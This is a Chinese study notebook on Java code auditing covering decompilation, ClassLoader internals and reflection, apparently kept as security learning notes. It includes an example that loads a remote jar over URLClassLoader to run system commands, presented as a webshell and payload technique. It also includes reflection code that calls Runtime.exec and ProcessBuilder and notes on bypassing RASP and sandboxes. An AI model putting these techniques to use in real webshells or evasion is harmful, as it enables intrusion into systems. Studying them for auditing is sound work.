


# java代码审计

> 学习资料：https://github.com/HackJava/HackJava
>
> [Java Web安全](https://www.bookstack.cn/read/anbai-inc-javaweb-sec/README.md)
>
> **《Java安全漫谈》**:https://github.com/phith0n/JavaThings
>
> java代码审计的checklist：https://xz.aliyun.com/t/3358
>
> 《Java代码审计（入门篇）》
>
> java漏洞复现：https://github.com/threedr3am/learnjavabug

## 学习路线：

> https://4ra1n.love/post/1-Z3tp8iq/

## 代码审计基础

- 通俗的说Java代码审计就是通过审计Java代码来发现Java应用程序自身中存在的安全问题，由于Java本身是编译型语言，所以即便只有class文件的情况下我们依然可以对Java代码进行审计。对于未编译的Java源代码文件我们可以直接阅读其源码，而对于已编译的class或者jar文件我们就需要进行反编译了。
- Java代码审计其本身并无多大难度，只要熟练掌握审计流程和常见的漏洞审计技巧就可比较轻松的完成代码审计工作了。但是Java代码审计的方式绝不仅仅是使用某款审计工具扫描一下整个Java项目代码就可以完事了，一些业务逻辑和程序架构复杂的系统代码审计就非常需要审计者掌握一定的Java基础并具有具有一定的审计经验、技巧甚至是对Java架构有较深入的理解和实践才能更加深入的发现安全问题。
- 本章节讲述Java代码审计需要掌握的前置知识以及Java代码审计的流程、技巧。
- 准备环境和辅助工具

  - 在开始Java代码审计前请自行安装好Java开发环境，建议使用MacOS、Ubuntu操作系统。
  - 所谓“工欲善其事，必先利其器”，合理的使用一些辅助工具可以极大的提供我们的代码审计的效率和质量！
  - 强烈推荐下列辅助工具：
    1. `Jetbrains IDEA(IDE)`
    2. `Visual Studio Code`

### Java类编译与反编译基础

- 在渗透测试的时候需要审计的代码通常是 `class文件`或者 `jar包`，那么我们应该如何审计呢？让我们先来学习一下什么是Java源码和字节码。
- Java类编译与反编译基础

  - 简单的说Java源码就是未经编译的 `.java`文件，我们可以很轻松的阅读其中的代码逻辑，而字节码 `.class`文件则是 `.java`文件经过编译之后产生的字节码文件，因为 `.class`文件是编译后的二进制文件所以我们是无法直接阅读的，只能通过反编译工具将二进制文件转换成 `java代码`或者 `ASM代码`。
  - 可以使用 `hexdump -C`命令查看.class文件到底保存了什么。
- **示例代码Test.java:**

  ```java
  /**
   * @author yz
   */
  public class Test {
      public static void hello() {
          System.out.println("Hello~");
      }
      public void world() {
          System.out.println("World!");
      }
      public static void main(String[] args) {
          hello();
      }
  }
  ```
- **Test.java编译执行流程:**

  - 
- **Test.java 源码、字节码**

  - 
- 由于class文件的可读性较差，通常我们需要使用Java反编译工具来反编译代码。我们通常会使用到[JD-GUI](http://jd.benow.ca/)、[IDEA Fernflower插件](https://github.com/JetBrains/intellij-community/tree/master/plugins/java-decompiler/engine/src/org/jetbrains/java/decompiler)、[Bytecode-Viewer](https://github.com/Konloch/bytecode-viewer/releases)、[Fernflower](https://the.bytecode.club/showthread.php?tid=5)、[JAD](http://www.javadecompilers.com/jad)、[JBE](http://www.cs.ioc.ee/~ando/jbe/)、[JEB](https://www.pnfsoftware.com/jeb/manual/) 等工具来反编译class。

  其中 `JD-GUI`可能是目前反编译中使用的最多的工具了，但是个人觉得 `JD-GUI`的反编译能力远不如经过 `IDEA`(IDEA应该是使用的改版后的 `Fernflower`)，因为 `IDEA`默认支持对 `jar`和 `class`的反编译，所以我个人强烈推荐使用 `IDEA`来反编译class代码。
- 当然，反编译工具很多时候也不是万能的，`JD-GUI`经常遇到无法反编译或反编译过程中程序直接崩溃的情况，遇到这类情况我们通常可以使用 `IDEA`反编译试试，如果 `IDEA`也无法反编译可以使用 `JBE`来加载 `class文件`读取程序的字节码，如果 `JBE`仍无法读取类信息还可以使用 `JDK`自带的 `javap命令`来读取 `class类字节码`，如果上诉所有的方法都无法反编译，那么恐怕是这个类本身就存在无法编译问题要么可能就是类文件被加密处理过。可能你会说java编译的class不是说不可以加密吗？没错，这里所说的加密其实是为了保护编译后的class代码不可反编译，通过实现 `自定义ClassLoader`来 `loadClass`加密后的类方式而已,这种加密方式曾在实战中也有遇到。

## java classLoader类加载机制

### ClassLoader

- java程序是由class文件组成的一个完整应用程序，在程序运行时候，并不会一次性加载所有class文件进入内存，而是通过java的类加载机制（ClassLoader）进行动态加载，从而转换成 java.lang.Class类的一个实例。
- 当一个java文件a运行时候，调用了另外一个java文件的类，那么在该java类初始化的时候，会调用 java.lang.ClassLoader 加载类字节码，**ClassLoader会调用JVM的native 方法来定义一个 java.lang.Class实例**。

  - 
  - 所谓的Class对象，是Class类的实例，而Class类是描述所有类的，比如Person类，Student类

    - 
  - 可以看出，要创建一个实例，最关键的就是**得到对应的Class对象。**只不过对于初学者来说，new这个关键字配合构造方法，实在太好用了，底层隐藏了太多细节，一句 Person p = new Person();直接把对象返回给你了。
- 程序在启动的时候，并不会一次性加载该程序要用到的所有class文件，而是根据程序的需要，通过Java的类加载机制（ClassLoader）来动态加载某个class文件到内存当中的，从而只有class文件被载入到了内存之后，才能被其它class所引用。**所以ClassLoader就是用来动态加载class文件到内存当中用的。**

  
- 一切的Java类都必须经过JVM加载后才能运行，而 ClassLoader 的主要作用就是 Java 类的加载。但是**加载器也有很多种**，在 JVM 类加载器中**最顶层的是 Bootstrap ClassLoader(引导类加载器，该加载器实现于JVM层，采用C++编写)**、**Extension ClassLoader(扩展类加载器)**、**App ClassLoader(系统类加载器)**。系统类加载器的父类是扩展类加载器，扩展类加载器的父类是引导类加载器。

  
- **AppClassLoader是默认的类加载器**，如果类加载时我们不指定类加载器的情况下，默认会使用AppClassLoader 加载类。 ClassLoader.getSystemClassLoader() 返回的系统类加载器也是AppClassLoader。
- 值得注意的是某些时候我们获取一个类的类加载器的时候可能会返回一个null值。如：java.io.File.class.getClassLoader() 将返回一个 null 对象，因为 java.io.File 类在JVM初始化的时候会被 Bootstrap ClassLoader加载，我们在尝试获取被BootStrap ClassLoader类加载器所加载的类的ClassLoader的时候都会返回null。
- java类动态加载方式

  - Java类加载方式分为 **显式** 和 **隐式**。显式即我们通常使用**类Class中的ForName()**或者 **ClassLoader** 来动态加载一个类，而隐式指的是类名.方法名() 或 new 类实例。显式类加载方式也可以理解为类动态加载，我们可以自定义类加载器去加载任意的类，**类动态加载要配合反射机制一起用**。
  - 常用的类显示加载方式：

    - Class中的ForName()
      ```java
      Class<?> clazz = Class.forName("com.xxx.xxx.Test");
      Class<?> clazz = Class.forName("类名"，是否初始化类，类加载器)；
      ```
    - Classloader加载
      ```java
      Class<?> clazz = this.getClass().getClassLoader().loadClass("com.xxx.xxx.Test");
      ```
    - **class.forName("类名") 默认会初始化被加载类的静态属性和类方法**，如果不希望初始化类可以使用 `Class.forName("类名"，是否初始化类，类加载器)`，而ClassLoader.loadClass 默认不会初始化类方法。

### ClassLoader类加载流程

- 当ClassLoader加载com.anbai.sec.classloader.TestHelloWorld类时：
  1. ClassLoader会调用**public Class<?>  loadClass(String name)方法**加载com.anbai.sec.classloader.TestHelloWorld类。
  2. 调用**findLoadedClass方法**检查TestHelloWorld类是否已经初始化，如果JVM已初始化过该类则直接返回类对象。
  3. 如果创建当前ClassLoader时传入了特定加载器，就使用该加载器加载TestHelloWorld类，否则使用JVM的Bootstrap  ClassLoader加载。
  4. 如果上一步无法加载TestHelloWorld类，那么**调用自身的findClass方法**尝试加载TestHelloWorld类。自己写的classloader是进行这一步的
  5. 如果当前的ClassLoader没有重写了findClass方法，那么直接返回类加载失败异常。**如果当前类重写了findClass方法并通过传入的com.anbai.sec.classloader.TestHelloWorld类名找到了对应的类字节码，那么应该调用defineClass方法去JVM中注册该类。**
  6. 如果调用loadClass的时候传入的resolve参数为true，那么还需要调用resolveClass方法链接类,默认为false。
  7. **返回一个被JVM加载后的java.lang.Class类对象。**
- 综合上述步骤可知ClassLoader类有如下核心方法：
  - loadClass：加载指定的Java类
  - findClass：查找指定的Java类
  - findLoaderClass：查找JVM已经加载过的类
  - defindClass：定义一个Java类,也可以理解为把这个类的字节码交给jvm，这样jvm就可以用了。
  - resolveClass：链接指定的Java类

### 自定义ClassLoader

- **java.lang.ClassLoader是所有的类加载器的父类**，java.lang.ClassLoader有非常多的子类加载器，比如我们用于加载jar包的java.net.URLClassLoader其本身通过继承java.lang.ClassLoader类，重写了findClass方法从而实现了加载目录class文件甚至是远程资源文件。
- **我们只要继承了java.lang.ClassLoader类，然后重写findclass方法就可以自定义一个类加载器了。**
- 利用自定义类加载器我们可以在webshell中实现加载并调用自己编译的类对象，比如本地命令执行漏洞调用自定义类字节码的native方法绕过RASP检测（Runtime application self-protection），也可以用于加密重要的Java类字节码(只能算弱加密了)。
- 自定义ClassLoader（**看完反射机制再来看代码**）

  - 使用自定义类加载器重写findClass方法，然后在调用defineClass方法的时候传入TestHelloWorld类的字节码的方式来向JVM中定义一个TestHelloWorld类，最后通过反射机制就可以调用TestHelloWorld类的hello方法了。
  - com.anbai.sec.classloader.TestHelloWorld文件的源码：

    ```java
    package com.anbai.sec.classloader;
    /**
      * Creator: yz
      * Date: 2019/12/17
      */
    public class TestHelloWorld{
            public String hello(){
            return "Hello World~";
            }
    }
    ```

    ```java
    package test;
    
    import java.lang.reflect.Method;
    public class TestClassLoader extends ClassLoader {
        // TestHelloWorld类名
        private static String testClassName = "com.anbai.sec.classloader.TestHelloWorld";
        // TestHelloWorld类字节码
        private static byte[] testClassBytes = new byte[]{
                -54, -2, -70, -66, 0, 0, 0, 51, 0, 17, 10, 0, 4, 0, 13, 8, 0, 14, 7, 0, 15, 7, 0,
                16, 1, 0, 6, 60, 105, 110, 105, 116, 62, 1, 0, 3, 40, 41, 86, 1, 0, 4, 67, 111, 100,
                101, 1, 0, 15, 76, 105, 110, 101, 78, 117, 109, 98, 101, 114, 84, 97, 98, 108, 101,
                1, 0, 5, 104, 101, 108, 108, 111, 1, 0, 20, 40, 41, 76, 106, 97, 118, 97, 47, 108,
                97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 59, 1, 0, 10, 83, 111, 117, 114, 99,
                101, 70, 105, 108, 101, 1, 0, 19, 84, 101, 115, 116, 72, 101, 108, 108, 111, 87, 111,
                114, 108, 100, 46, 106, 97, 118, 97, 12, 0, 5, 0, 6, 1, 0, 12, 72, 101, 108, 108, 111,
                32, 87, 111, 114, 108, 100, 126, 1, 0, 40, 99, 111, 109, 47, 97, 110, 98, 97, 105, 47,
                115, 101, 99, 47, 99, 108, 97, 115, 115, 108, 111, 97, 100, 101, 114, 47, 84, 101, 115,
                116, 72, 101, 108, 108, 111, 87, 111, 114, 108, 100, 1, 0, 16, 106, 97, 118, 97, 47, 108,
                97, 110, 103, 47, 79, 98, 106, 101, 99, 116, 0, 33, 0, 3, 0, 4, 0, 0, 0, 0, 0, 2, 0, 1,
                0, 5, 0, 6, 0, 1, 0, 7, 0, 0, 0, 29, 0, 1, 0, 1, 0, 0, 0, 5, 42, -73, 0, 1, -79, 0, 0, 0,
                1, 0, 8, 0, 0, 0, 6, 0, 1, 0, 0, 0, 7, 0, 1, 0, 9, 0, 10, 0, 1, 0, 7, 0, 0, 0, 27, 0, 1,
                0, 1, 0, 0, 0, 3, 18, 2, -80, 0, 0, 0, 1, 0, 8, 0, 0, 0, 6, 0, 1, 0, 0, 0, 10, 0, 1, 0, 11,
                0, 0, 0, 2, 0, 12
        };
        @Override
        public Class<?> findClass(String name) throws ClassNotFoundException {
            // 只处理TestHelloWorld类
            if (name.equals(testClassName)) {
                // 调用JVM的native方法定义TestHelloWorld类
                return defineClass(testClassName, testClassBytes, 0, testClassBytes.length);
            }
            return super.findClass(name);
        }
        public static void main(String[] args) {
            // 创建自定义的类加载器
            TestClassLoader loader = new TestClassLoader();
            try {
                // 使用自定义的类加载器加载TestHelloWorld类
                Class testClass = loader.loadClass(testClassName);
                // 反射创建TestHelloWorld类，等价于 TestHelloWorld t = new TestHelloWorld();
                Object testInstance = testClass.newInstance();
                // 反射获取hello方法
                Method method = testInstance.getClass().getMethod("hello");
                // 反射调用hello方法,等价于 String str = t.hello();
                String str = (String) method.invoke(testInstance);
                System.out.println(str);
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
    }
    ```

### URLClassLoader

- URLClassLoader继承了ClassLoader，URLClassLoader提供了加载远程资源的能力，在写漏洞利用的payload或者webshell的时候我们可以使用这个特性来加载远程的jar来实现远程的类方法调用。
- TestURLClassLoader.java示例：

  ```java
  package test;
  import java.io.ByteArrayOutputStream;
  import java.io.InputStream;
  import java.net.URL;
  import java.net.URLClassLoader;
  /**
      * Creator: yz
      * Date: 2019/12/18
      */
  public class TestURLClassLoader {
      public static void main(String[] args) {
          try {
              // 定义远程加载的jar路径
              URL url = new URL("https://javaweb.org/tools/cmd.jar");
              // 创建URLClassLoader对象，并加载远程jar包
              URLClassLoader ucl = new URLClassLoader(new URL[]{url});
              // 定义需要执行的系统命令
              String cmd = "calc.exe";
              // 通过URLClassLoader加载远程jar包中的CMD类
              Class cmdClass = ucl.loadClass("CMD");
              // 调用CMD类中的exec方法，等价于: Process process = CMD.exec("calc.exe");
              Process process = (Process) cmdClass.getMethod("exec", String.class).invoke(null, cmd);
              // 获取命令执行结果的输入流
              InputStream           in   = process.getInputStream();
              ByteArrayOutputStream baos = new ByteArrayOutputStream();
              byte[]                b    = new byte[1024];
              int                   a    = -1;
              // 读取命令执行结果
              while ((a = in.read(b)) != -1) {
                  baos.write(b, 0, a);
              }
              // 输出命令执行结果
              System.out.println(baos.toString());
          } catch (Exception e) {
              e.printStackTrace();
          }
      }
  }
  ```
- 执行结果，弹出计算器。
- 远程的cmd.jar中就一个CMD.class文件，对应的编译之前的代码片段如下：

  ```java
  import java.io.IOException;
  /**
  * Creator: yz
  * Date: 2019/12/18
  */
  public class CMD {
  	public static Process exec(String cmd) throws IOException {
  		return Runtime.getRuntime().exec(cmd);
  	}
  }
  
  ```

## 反射机制

- Java安全可以从反序列化漏洞开始说起，反序列化漏洞⼜可以从反射开始说起
- 反射机制是java的一个非常重要的机制，一些著名的应用框架都使用了此机制，如struts、spring、hibernate、android app界面等等。Java反射在编写漏洞利用代码、代码审计、绕过RASP方法限制等中起到了至关重要的作用。

### 什么是反射？

- 在运行状态中，对于任意一个类，都能够获取到这个类的所有属性和方法，对于任意一个对象，都能够调用它的任意一个方法和属性(包括私有的方法和属性)，这种动态获取信息以及动态调用对象的方法的功能就称为**java语言的反射机制**。也就是说，**虽然我们获取不到该类的源代码，但是通过该类的.class文件能反射(Reflect)出这些信息。**在正常情况下，除了系统类，如果我们想拿到一个类，需要先 import 才能使用。而使用forName就不 需要，这样对于我们的攻击者来说就十分有利，我们可以加载任意类。
- 通俗点讲，通过反射，该类对我们来说是完全透明的，想要获取任何东西都可以。对象可以通过反射获取他的类，类可以通过反射拿到所有 ⽅法（包括私有），拿到的⽅法可以调⽤，总之通过“反射”，我们可以将Java这种静态语⾔附加上动态特性。
- **“⼀段代码，改变其中的变量，将会导致 这段代码产⽣功能性的变化，我称之为动态特性”**
- 想要使用反射机制，就必须要先获取到该类的字节码文件对象 .class，`java.lang.Class`类实例化就表示 .class 字节码文件对象。在文件系统中，class以文件的形式存在。在运行的JVM中，*.class文件被加载到内存中成为一个对象，该对象的类型就是java.lang.Class。
- 通过字节码文件对象，就能够通过该类中的方法获取到我们想要的所有信息(**方法、属性、类名、父类名、实现的所有接口等等**)，每一个类对应着一个字节码文件也就对应着一个Class类型的对象，也就是字节码文件对象。
- **获取.class字节码文件对象：**

  - 获取字节码文件对象的四种方式，有了字节码文件对象才能获得类中所有的信息，我们在使用反射获取信息时，也要考虑使用下面哪种方式获取字节码对象合理，视不同情况而定。

    - Class.forName(）

      ```java
      Class clazz1 = Class.forName("my.Student");
      //通过Class类中的静态方法forName，直接获取到一个类的字节码文件对象，此时该类还是源文件阶段，并没有变为字节码文件。包名为 my，类名为 Student。
      ```
    - 类名.class

      ````java
      Class clazz2 = com.anbai.sec.classloader.Student.class; 
      //如果你已经加载了某个类，只是想获取到它的 java.lang.Class 对象，那么就直接
      拿它的 class 属性即可。这个⽅法其实不属于反射。
      ````
    - classLoader.loadClass()

      ```java
      classLoader.loadClass("com.anbai.sec.classloader.TestHelloWorld");
      ```
    - 对象.getClass()

      ```java
      Runtinme rt = Runtime.getRuntime()
      Class<?> name = rt.getClass()
      ```
  - 在安全研究中，我们使⽤反射的⼀⼤⽬的，就是绕过某些沙盒。⽐如，上下⽂中如果只有Integer类型的 数字，我们如何获取到可以执⾏命令的Runtime类呢？也许可以这样（伪代 码）： `1.getClass().forName("java.lang.Runtime")`
  - 获取数组类型的Class对象需要特殊注意,需要使用Java类型的描述符方式，如下：

    ```JAVA
    Class<?> doubleArray = Class.forName("[D");//相当于double[].class
    Class<?> cStringArray = Class.forName("[[Ljava.lang.String;");// 相当于String[][].class
    ```
  - 获取Runtime类Class对象代码片段：

    ```java
    String className     = "java.lang.Runtime";
    Class  runtimeClass1 = Class.forName(className);
    Class  runtimeClass2 = java.lang.Runtime.class;
    Class  runtimeClass3 = ClassLoader.getSystemClassLoader().loadClass(className);
    ```
  - 通过以上任意一种方式就可以获取java.lang.Runtime类的Class对象了。
- **获取该.class字节码文件对象的详细信息,然后通过java.lang.reflect.*就可以实例化类，然后可以执行该对象的函数了.**

  - 当我们得到一个.class字节码文件对象clazz，我们可以得到以下信息：
  - 和包，类有关的信息 ：

    - | 获取包信息                 | .getPackage()    |
      | -------------------------- | ---------------- |
      | 获得该类的名字，不包含包名 | .getSimpleName() |
      | 获得该类的名字，包含包名   | .getName()       |
  - 和该类各种函数有关的信息：

    - | 获取当前类所有的成员方法，是一个数组，                  每一个值都是一个方法： | Method[]       methods = clazz.getDeclaredMethods()                                                  getMethod和getDeclaredMethod都能够获取到类成员方法，区别在于getMethod只能获取到当前类和父类的所有有权限的方法(如：public)，而getDeclaredMethod能获取到当前类的所有成员方法(不包含父类)。                                                                                                                                                                                                                                                                      |
      | ------------------------------------------------------------------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
      | 获取当前类指定的成员方法：                                                     | Method method =  clazz.getDeclaredMethod("方法名");                                                                          Method method = clazz.getDeclaredMethod("方法名",  参数类型如String.class，多个参数用","号隔开);   Java中支持类的重载，我们不能仅通过函数名来确定一个函数。所以，在调用 getMethod 的时候，我们需要 传给他你需要获取的函数的参数类型列表。                                                                                           当 一个方法是私有的时候，我们可以使用method.setAceessible(true)去修改他的权限，是的我们可以访问。 |
      | 获取构造函数的集合                                                             | Constructor[] con=clazz.getConstructors();                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
      | 获取当前类指定参数的构造函数                                                   | Constructor[] con=clazz.getConstructor(参数类型逗号隔开);                                                                     当我们没有访问构造方法权限即改构造函数为私有时候时我们应该调用constructor.setAccessible(true)修改访问权限就可以成功的创建出类实例了                                                                                                                                                                                                                                                                                                  |
      | 获取私有函数(protected和private修饰的)集合                                     | .getDeclaredAnnotations()                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
  - 当得到一个方法m时:

    - | 得到这个方法的名字 | m.getName()                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
      | ------------------ | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
      | 反射调用方法       | method.invoke(方法实例对象, 方法参数值，多个参数值用","隔开);                                                     method.invoke的第一个参数必须是类实例对象，如果调用的是static方法那么第一个参数值可以传null，因为在java中调用静态方法是不需要有类实例的，因为可以直接类名.方法名(参数)的方式调用。                                                                                                                                  method.invoke的第二个参数不是必须的，如果当前调用的方法没有参数，那么第二个参数可以不传，如果有参数那么就必须严格的依次传入对应的参数类型。 |
  - 获得接口：`Class[] interfaces=cls.getInterfaces(); `
  - 获得域（成员变量）：

    - | 获取成员变量列表，包括父类中的变量                                  | java.lang.reflect.Field[] fields=clazz.getFields();                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
      | ------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
      | 获取当前类的所有成员变量，包括public，private，proteced：           | clazz.getDeclaredField(str2);                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
      | 获取当前类指定的成员变量：                                          | Field       field =       clazz.getDeclaredField("变量名");                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
      | 获取成员变量值：                                                    | Object obj = field.get(类实例对象); 当是调用类变量，类实例对象可以为null。                              这里的Object要写成对应的变量类型                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
      | 修改成员变量值：                                                    | field.set(类实例对象,       修改后的值);       同理，当我们没有修改的成员变量权限时可以使用: field.setAccessible(true)的方式修改为访问成员变量访问权限。                                                                                                                                                                                                                                                                                                                                                                                                                                         |
      | 如果我们需要修改被final关键字修饰的成员变量，那么我们需要先修改方法 | 反射获取Field类的modifiers                                                                                          Field modifiers =       field.getClass().getDeclaredField("modifiers");                          // 设置modifiers修改权限               modifiers.setAccessible(true);                               // 修改成员变量的Field对象的modifiers值               modifiers.setInt(field, field.getModifiers() &       ~Modifier.FINAL);                                                                   //       修改成员变量值               field.set(类实例对象, 修改后的值); |
  - 其他操作：

    - 实例化该类：

      - clazz.newInstance() 如果构造函数不是私有的，可以直接生成。
      - 如果是私有的那么需要得到构造函数,然后设置构造函数权限为可以访问。

        ```java
        constructor=clazz.getConstructor()
        constructor.setAccessible(true);
        Object unsafe1 = (Object) constructor.newInstance();  //Object要换成对应的类的名称
        ```

        - Runtime 类的构造方法就是私有的。
        - 有同学就比较好奇，为什么会有类的构造方法是私有的，难道他不想让用户使用这个类吗？这其实涉及 到很常见的设计模式：“单例模式”。（有时候工厂模式也会写成类似） 比如，对于Web应用来说，数据库连接只需要建立一次，而不是每次用到数据库的时候再新建立一个连 接，此时作为开发者你就可以将数据库连接使用的类的构造函数设置为私有，然后编写一个静态方法来 获取：

          ```java
          public class TrainDB {
              private static TrainDB instance = new TrainDB();
              public static TrainDB getInstance() {
              return instance;
              }
              private TrainDB() {
              // 建立连接的代码...
              }
          }
          ```
        - 这样，只有类初始化的时候会执行一次构造函数，后面只能通过 getInstance 获取这个对象，避免建 立多个数据库连接。
      - 如果该类没有无参构造函数，那么就要传入对应的参数，不然会报错。
      - **在获得对象之后，可以直接按照操作对象的方式对调用函数，也可以使反射去调用函数**
    - 获取类修饰符：`clazz.getModifiers()`
  - **在反射⾥极为重要的⽅法：**

    - 获取类的⽅法： forName
    - 实例化类对象的⽅法： newInstance
    - 获取函数的⽅法： getMethod
    - 执⾏函数的⽅法： invoke
- **通过反射机制来执行字节码对象的函数。**

  - 需要用到 java.lang.reflect.*下的类。
  - 随便写个类，自己测试就行。

### 反射java.lang.Runtime类:

- java.lang.Runtime因为有一个exec方法可以执行本地命令，所以在很多的payload中我们都能看到反射调用Runtime类来执行本地系统命令，通过学习如何反射Runtime类也能让我们理解反射的一些基础用法。
- 不使用反射执行本地命令代码片段：

  ```java
  package test;
  
  import org.apache.commons.io.IOUtils;
  public class Runtimetest {
      public static void main(String[] args) {
          try{
              String s = IOUtils.toString(Runtime.getRuntime().exec("whoami").getInputStream(), "UTF-8");
              System.out.println(s);
          }catch(Exception e){
              System.out.println(e);
          }
      }
  }
  ```

  - 如上可以看到，我们可以使用一行代码完成本地命令执行操作，但是如果使用反射就会比较麻烦了，我们不得不需要间接性的调用Runtime的exec方法。
- 反射Runtime执行本地命令代码片段1：

  ```java
  package test;
  import java.lang.reflect.Constructor;
  import java.lang.reflect.Method;
  import java.io.InputStream;
  import org.apache.commons.io.IOUtils;
  public class Runtime1 {
      public static void main(String[] args) {
          try{
              //获取Runtime类字节码对象
              Class runtimeClass1 = Class.forName("java.lang.Runtime");
              //获取构造方法
              Constructor constructor = runtimeClass1.getDeclaredConstructor();
              constructor.setAccessible(true);
              // 创建Runtime类示例，等价于 Runtime rt = new Runtime();
              //还可以通过getruntime()这个类方法得到对象而不通过构造函数
              Object runtimeinstance = constructor.newInstance();
              //获取Runtime的exec(String cmd)方法
              Method runtimeMethod = runtimeClass1.getMethod("exec",String.class);
              // 调用exec方法，等价于 rt.exec(cmd);
              Process process = (Process)runtimeMethod.invoke(runtimeinstance,"whoami");
              // 获取命令执行结果
              InputStream in = process.getInputStream();
              // 输出命令执行结果
              System.out.println(IOUtils.toString(in,"UTF-8"));
          }catch(Exception e){
              System.out.println(e);
          }
      }
  }


  ```
- 反射调用Runtime实现本地命令执行的流程如下：

  - 反射获取Runtime类字节码对象(Class.forName("java.lang.Runtime"))。有很多种方式可以获得字节码对象。
  - 使用Runtime类的Class对象获取Runtime类的无参数构造方法(getDeclaredConstructor())，因为Runtime的构造方法是private的我们无法直接调用，所以我们需要通过反射去修改方法的访问权限(constructor.setAccessible(true))。也可以直接调用getruntime()方法获取一个对象。
    - runtimeClass1.getDeclaredConstructor和runtimeClass1.getConstructor都可以获取到类构造方法，区别在于后者无法获取到私有方法，所以一般在获取某个类的构造方法时候我们会使用前者去获取构造方法。如果构造方法有一个或多个参数的情况下我们应该在获取构造方法时候传入对应的参数类型数组，如：clazz.getDeclaredConstructor(String.class,     String.class)。
    - 如果我们想获取类的所有构造方法可以使用：clazz.getDeclaredConstructors来获取一个Constructor数组。
    - 获取到Constructor以后我们可以通过constructor.newInstance()来创建类实例,同理如果有参数的情况下我们应该传入对应的参数值，如:constructor.newInstance("admin",   "123456")。当我们没有访问构造方法权限时我们应该调用constructor.setAccessible(true)修改访问权限就可以成功的创建出类实例了
  - 获取Runtime类的exec(String)方法，(runtimeClass1.getMethod("exec", String.class);)。
  - 调用exec(String)方法，(runtimeMethod.invoke(runtimeInstance,     cmd))。

### 反射ProcessBuilder

- 我们常用的另一种执行命令的方式ProcessBuilder，我们使用反射来获取其构造函数，然后调用 start() 来执行命令：
- 在这里调用函数并没有完全使用反射，而是反射得到对象之后，通过对象去调用函数。

  ```java
  package test;

  import java.io.IOException;
  import java.lang.reflect.InvocationTargetException;
  import java.util.Arrays;
  import java.util.List;

  public class ProcessDemo {
      public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException, IOException {

          Class clazz = Class.forName("java.lang.ProcessBuilder");
          ((ProcessBuilder) clazz.getConstructor(List.class).newInstance(Arrays.asList("calc.exe"))).start();

      }
  //Arrays.asList(),用于转换成list集合
  }

  ```
- ProcessBuilder有两个构造函数：

  ```java
  public ProcessBuilder(List<String> command)
  public ProcessBuilder(String... command)
  ```
